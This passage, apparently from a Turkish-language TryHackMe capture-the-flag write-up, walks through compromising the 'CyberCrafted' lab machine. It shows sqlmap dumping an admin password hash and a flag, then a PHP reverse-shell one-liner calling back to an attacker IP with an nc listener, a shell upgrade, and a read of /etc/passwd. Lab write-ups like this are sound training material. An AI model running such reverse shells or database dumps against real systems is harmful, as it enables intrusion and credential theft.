 ```bash
[20:22:35] [WARNING] no clear password(s) found                                                                                
Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+

[20:22:35] [INFO] table 'webapp.admin' dumped to CSV file '/root/.local/share/sqlmap/output/store.cybercrafted.thm/dump/webapp/admin.csv'
[20:22:35] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 29 times
[20:22:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/store.cybercrafted.thm'
[20:22:35] [WARNING] your sqlmap version is outdated

[*] ending @ 20:22:35 /2023-11-11/
```

Kullanıcı adı ve şifreyi öğrendiğimize göre login sayfasından giriş yapalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a10.png?raw=true)

Giriş yaptığımızda komut çalıştırabileceğimiz bir sayfa görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a11.png?raw=true)

Geriye komut çalıştırmak ve reverse shell almak kaldı.

```bash
php -r '$sock=fsockopen("10.14.61.127",1234);exec("/bin/sh -i <&3 >&3 2>&3");''
nc -nvlp 1234
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a12.png?raw=true)

Makineye giriş yapmayı başardık.

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

2 farklı kullanıcı buluyoruz.

```bash
www-data@cybercrafted:/$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
xxultimatecreeperxx:x:1001:1001:,,,:/home/xxultimatecreeperxx:/bin/bash
cybercrafted:x:1002:1002:,,,:/home/cybercrafted:/bin/bash
www-data@cybercrafted:/$ 
```
